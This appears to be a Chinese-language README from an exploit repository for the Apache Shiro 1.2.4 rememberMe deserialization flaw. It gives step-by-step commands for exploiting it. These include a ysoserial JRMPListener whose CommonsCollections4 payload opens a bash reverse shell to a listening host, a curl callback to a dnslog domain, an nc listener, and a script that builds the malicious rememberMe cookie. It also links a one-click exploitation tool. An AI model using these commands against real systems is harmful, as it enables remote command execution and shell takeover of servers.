




## apache shiro 1.2.4 反序列化导致的命令执行漏洞

### 一、本地环境搭建下载地址
	https://github.com/vlong6/exp/tree/master/application/apache-shiro

### 二、本地验证

##### 1、vps 开启ysoserial.jar
	反弹shell
	java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 "反弹shell的命令"
	
	java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4  "bash -i >& /dev/tcp/172.16.24.15/3333 0>&1"

	向dnslog发送请求
	java -cp ysoserial.jar ysoserial.exploit.JRMPListener 2001 CommonsCollections4 "curl ac7e3h.dnslog.cn"

##### 2、vps监听端口
	nc -l 3333

##### 3、执行poc生成rememberMe
	python exp.py 10.245.42.165:1099

##### 4、请求目标服务器，cookie添加rememberMe

### 四、一键工具
	https://github.com/vlong6/payload/blob/master/%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/apache/apache_shiro/ShiroExploit.V2.43.zip